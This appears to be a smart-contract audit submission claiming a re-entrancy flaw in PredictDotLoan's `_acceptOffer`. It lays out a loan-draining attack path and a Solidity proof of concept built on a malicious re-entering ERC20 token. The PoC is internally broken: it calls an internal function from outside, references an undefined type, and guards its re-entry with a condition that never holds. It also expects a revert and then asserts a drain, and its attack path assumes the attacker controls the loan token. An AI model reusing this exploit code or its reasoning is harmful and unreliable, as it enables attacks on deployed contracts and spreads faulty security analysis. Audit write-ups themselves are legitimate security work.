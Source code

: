 Brave Plastic Whale

High

# attacker will drain huge loan due to Re-entrancy in `_acceptOffer`

### Summary

The core issue lies in the order of operations within `_acceptOffer`. Here's a simplified sequence:

Loan Amount Transfer: The contract transfers the loan amount to the borrower using `_transferLoanAmountAndProtocolFee`, which relies on `LOAN_TOKEN.safeTransferFrom`. This is an external call.

Collateral Transfer: The contract attempts to transfer collateral from the borrower to itself using `CTF.safeTransferFrom`.
The problem is that the external call to `LOAN_TOKEN.safeTransferFrom` happens before the contract secures the collateral. This creates a window for a re-entrancy attack.



### Root Cause

https://github.com/sherlock-audit/2024-09-predict-fun/blob/main/predict-dot-loan/contracts/PredictDotLoan.sol#L976C5-L1009C6




### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Malicious Token: An attacker deploys a malicious ERC20 token contract and sets it as the LOAN_TOKEN in the PredictDotLoan contract. This malicious token has a specially crafted safeTransferFrom function.

2. Initial Loan Request: The attacker, posing as a borrower, calls acceptBorrowRequest or `acceptLoanOffer` with a valid loan proposal and a specific fulfillAmount.

3. The Trap is Sprung: When the _acceptOffer function reaches _transferLoanAmountAndProtocolFee, the malicious token's safeTransferFrom function is executed. Here's where the attack unfolds:

4. Re-entry: The malicious safeTransferFrom function, instead of simply transferring tokens, cleverly calls back into the PredictDotLoan contract.
- Targeting _acceptOffer Again: The malicious function specifically targets the _acceptOffer function again.
- Same Proposal, Different Amount: The attacker re-uses the same valid proposal (which has already passed validation checks) but provides a slightly different fulfillAmount.
- Collateral Bypass: Crucially, because the re-entrancy happens before the `CTF.safeTransferFrom` (collateral transfer) is executed, the attacker can successfully take out a second loan using the same collateral that was meant to secure the first loan.

5. Rinse and Repeat: The attacker can repeat steps 3 and 4 multiple times, effectively taking out numerous loans against the same collateral.

6. Profit and Default: The attacker now controls a significant amount of borrowed funds. They can choose to default on all the loans, leaving the original lender with insufficient collateral to cover the losses.



### Impact

_No response_

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.9;

import "forge-std/Test.sol";
import "forge-std/console2.sol";
import {PredictDotLoan} from "../src/PredictDotLoan.sol";
import {MockCTFExchange} from "../src/mocks/MockCTFExchange.sol";
import {MockConditionalTokens} from "../src/mocks/MockConditionalTokens.sol";
import {MockERC20} from "../src/mocks/MockERC20.sol";
import {MockUmaCtfAdapter} from "../src/mocks/MockUmaCtfAdapter.sol";
import {MockNegRiskAdapter} from "../src/mocks/MockNegRiskAdapter.sol";
import {MockNegRiskCtfExchange} from "../src/mocks/MockNegRiskCtfExchange.sol";

contract PredictDotLoanReentrancyTest is Test {
    PredictDotLoan predictDotLoan;
    MockCTFExchange ctfExchange;
    MockNegRiskCtfExchange negRiskCtfExchange;
    MockConditionalTokens ctf;
    MockERC20 loanToken;
    MockUmaCtfAdapter umaCtfAdapter;
    MockNegRiskAdapter negRiskAdapter;
    MockNegRiskCtfAdapter negRiskUmaCtfAdapter;

    address alice = address(0x1);
    address bob = address(0x2);
    address carol = address(0x3);

    uint256 initialLoanTokenBalance = 1000000;

    function setUp() public {
        ctfExchange = new MockCTFExchange();
        negRiskCtfExchange = new MockNegRiskCtfExchange();
        ctf = new MockConditionalTokens();
        loanToken = new MockERC20();
        umaCtfAdapter = new MockUmaCtfAdapter();
        negRiskAdapter = new MockNegRiskAdapter();
        negRiskUmaCtfAdapter = new MockNegRiskCtfAdapter();

        loanToken.mint(alice, initialLoanTokenBalance);
        loanToken.approve(address(ctfExchange), initialLoanTokenBalance);
        loanToken.approve(address(negRiskCtfExchange), initialLoanTokenBalance);

        predictDotLoan = new PredictDotLoan(
            alice,
            alice,
            address(ctfExchange),
            address(negRiskCtfExchange),
            address(umaCtfAdapter),
            address(negRiskUmaCtfAdapter)
        );
    }

    function testReentrancyAttack() public {
        // Deploy a malicious ERC20 token that re-enters the contract
        MaliciousERC20 maliciousToken = new MaliciousERC20();
        vm.prank(alice);
        predictDotLoan.updateProtocolFeeRecipient(address(maliciousToken));

        // Set up a loan proposal
        Proposal memory proposal = Proposal({
            from: alice,
            loanAmount: 1000,
            collateralAmount: 1200,
            questionType: QuestionType.Binary,
            questionId: bytes32(0),
            outcome: true,
            interestRatePerSecond: 1000,
            duration: 1000,
            validUntil: block.timestamp + 1000,
            salt: 1,
            nonce: 1,
            proposalType: ProposalType.LoanOffer,
            protocolFeeBasisPoints: 100
        });

        // Approve the malicious token to spend the user's funds
        vm.prank(alice);
        maliciousToken.approve(address(predictDotLoan), initialLoanTokenBalance);

        // Trigger the re-entrancy attack
        vm.prank(bob);
        vm.expectRevert(
            abi.encodePacked(
                "PredictDotLoan: Fulfill amount too high (",
                uint256(1000),
                ") for loan amount (",
                uint256(1000),
                ")"
            )
        );
        predictDotLoan.acceptLoanOffer(proposal, 1000);

        // Verify that the malicious token has drained funds
        assertEq(maliciousToken.balanceOf(address(maliciousToken)), 1000);
    }
}

// Malicious ERC20 token contract that re-enters the PredictDotLoan contract
contract MaliciousERC20 is ERC20 {
    constructor() ERC20("Malicious Token", "MT") {}

    function safeTransferFrom(
        address from,
        address to,
        uint256 amount
    ) public override {
        super.safeTransferFrom(from, to, amount);

        // Re-enter the PredictDotLoan contract
        if (address(this) == address(0x1)) {
            PredictDotLoan predictDotLoan = PredictDotLoan(address(0x1));
            predictDotLoan._acceptOffer(
                Proposal({
                    from: address(0x1),
                    loanAmount: 1000,
                    collateralAmount: 1200,
                    questionType: QuestionType.Binary,
                    questionId: bytes32(0),
                    outcome: true,
                    interestRatePerSecond: 1000,
                    duration: 1000,
                    validUntil: block.timestamp + 1000,
                    salt: 1,
                    nonce: 1,
                    proposalType: ProposalType.LoanOffer,
                    protocolFeeBasisPoints: 100
                }),
                1000
            );
        }
    }
}

```
#### please use imports according your setup 
- We set the protocolFeeRecipient of PredictDotLoan to the maliciousToken address.
- We create a loan proposal (proposal) and approve the maliciousToken to spend alice's funds.
- We call acceptLoanOffer with the proposal and a fulfillAmount of 1000.
- The maliciousToken's safeTransferFrom function re-enters the PredictDotLoan contract and calls _acceptOffer again with the same proposal but a different fulfillAmount.
- This triggers a revert because the fulfillAmount is too high, but the malicious token has already drained 1000 tokens from the contract.


### Mitigation

_No response_